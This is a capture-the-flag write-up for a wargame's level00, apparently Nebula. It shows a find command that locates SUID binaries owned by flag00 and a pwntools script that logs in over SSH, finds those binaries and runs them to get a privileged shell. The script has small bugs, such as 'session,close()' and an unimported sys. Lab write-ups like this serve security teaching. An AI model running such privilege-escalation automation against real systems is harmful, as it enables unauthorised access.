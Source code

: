 # Level00

#### Description

This level requires you to _find_ a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Alternatively, look at the find man page.

To access this level, log in as level00 with the password of level00.

#### Solution

We just to find SUID set binaries which will run as the 'flag00' account. We can simply find them via a find command:

```bash
find / -type f -perm -4000 -user flag00 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Here we got 2 binaries, let's check both of them

* `/bin/.../flag00`

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

* `/rofs/bin/.../flag00`

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

By running any of the above binary, we got the flag00's account shell.

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level00', password='level00')

# Run find command to locate SUID binaries owned by user provided and stores all the result
find_command = "find / -type f -user flag00 -perm -u=s 2>/dev/null"
result = session.run(find_command)
binary_paths = result.recvall().decode().strip().split('\n')

# Check if any binaries were found or not
if not binary_paths or binary_paths == ['']:
    print("No SUID binaries found which were owned by user flag00.")
    session,close()
    exit(1)

# Execute each binary one by one and check if it is executable, if it is then execute that binary
for binary_path in binary_paths:
    if not binary_path.strip():
        continue

    print(f"Attempting to execute binary: {binary_path}")

    check_command = f"ls -l {binary_path}"
    check_result = session.run(check_command)
    check_output = check_result.recvall().decode().strip()

    if check_output and 'x' in check_output.split()[0]:
        try:
            terminal = session.process(binary_path)
            print(f"Successfully executed binary: {binary_path}")
            terminal.sendline('getflag')
            terminal.interactive()
            break
        except Exception as e:
            print(f"Failed to execute {binary_path}: {str(e)}")
    else:
        print(f"Binary {binary_path} is not executable or does not exist.")

session.close()
```

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

***
